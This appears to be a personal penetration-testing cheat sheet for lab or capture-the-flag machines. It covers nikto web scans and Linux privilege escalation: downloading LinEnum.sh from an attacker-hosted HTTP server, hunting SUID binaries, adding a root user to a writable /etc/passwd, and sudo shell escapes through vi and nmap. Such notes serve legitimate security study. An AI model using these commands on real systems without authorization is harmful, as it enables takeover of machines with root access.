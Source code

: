 --plugins-detection aggressive
--plugins-detection passive

# nikto

nikto -h 10.10.186.192:80

scan several hosts on network
nmap -p80 172.16.0.0/24 -oG - | nikto -h -

scan several ports on one host
nikto -h 10.10.10.1 -p 80,8000,8080

using plugins
nikto --list-plugins
nikto -h 10.10.186.192:80 -Plugin dir_traversal



# Privesc Linux

LinEnum.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
python3 -m http.server 8000
wget 10.10.11.214:8000/LinEnum.sh
shows kernel info, there’s often a kernel exploit for this
lists SUID (Set owner User ID up on execution) permissions
lists cron jobs

Find SUID & GUID binaries
find / -perm -u=s -type f 2>/dev/null
sudo find / -type f \( -perm -4000 -o -perm -2000 \) -print  (works too???)

passwd perms?
are any users members of the root group, listing group 0 in passwd?
test:x:0:0:root:/root:/bin/bash
is so we can add user with root perms by:
adding password:
openssl passwd -1 -salt [salt] [password]
then use the result in a new line in /etc/passwd
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

sudo -l
always run sudo -l to list what the current user can run as root
ex. vi use command :!sh to get a shell as root
if chmod perm just update perms on bash
if nmap run “sudo nmap --interactive” and type “!sh” to get root shell

cat /etc/crontab




# AD
